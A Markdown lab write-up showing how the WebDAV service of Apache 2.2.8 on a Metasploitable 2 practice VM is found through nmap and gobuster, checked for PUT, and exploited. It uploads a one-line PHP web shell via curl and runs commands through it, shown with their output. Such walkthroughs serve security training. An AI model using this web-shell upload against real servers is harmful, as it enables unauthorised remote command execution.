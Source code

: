 # 🌐 WebDAV RCE via PUT – Apache 2.2.8 (Port 80)

> This section covers the discovery and exploitation of the Apache WebDAV service running on port 80 on Metasploitable 2, which allowed file uploads and remote command execution.

---

## 🔍 Service Detection

```bash
nmap -p 80 -sC -sV 192.168.182.128
```

📌 Output:
- Apache httpd 2.2.8 ((Ubuntu) DAV/2)
- PHP/5.2.4-2ubuntu5.10
- WebDAV support detected

---

## 🧭 Directory Discovery

```bash
gobuster dir -u http://192.168.182.128/ -w /usr/share/wordlists/dirb/common.txt
```

📌 Interesting paths:
- `/dav`
- `/phpMyAdmin`
- `/phpinfo.php`

---

## ✅ Method Check for PUT Support

```bash
curl -X OPTIONS http://192.168.182.128/dav/ -i
```

📌 Output:
```
Allow: OPTIONS, GET, HEAD, POST, PUT, DELETE
```
✅ PUT method is enabled!

---

## ☠️ Uploading PHP Web Shell

Created a simple PHP shell :
```php
&lt;?php system($_GET['cmd']); ?&gt;
```

Uploaded via curl:
```bash
curl -T shell.php http://192.168.182.128/dav/shell.php
```

✅ Upload succeeded.

---

## 🚀 Command Execution via Browser

Accessed the shell from browser:
```bash
http://192.168.182.128/dav/shell.php?cmd=id
```

📌 Output:
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Additional commands:
```bash
http://192.168.182.128/dav/shell.php?cmd=whoami
http://192.168.182.128/dav/shell.php?cmd=uname -a
```

✅ Remote command execution achieved as `www-data`.

---

## 🔐 Summary

| Element       | Details                          |
|---------------|----------------------------------|
| Service       | Apache 2.2.8 + WebDAV            |
| Vulnerability | PUT method enabled               |
| Exploit       | PHP shell upload via `curl`      |
| Shell Type    | Browser-based RCE (?cmd=)        |
| User          | www-data                         |

> Next: [Privilege Escalation Techniques](./privilege-escalation.md)
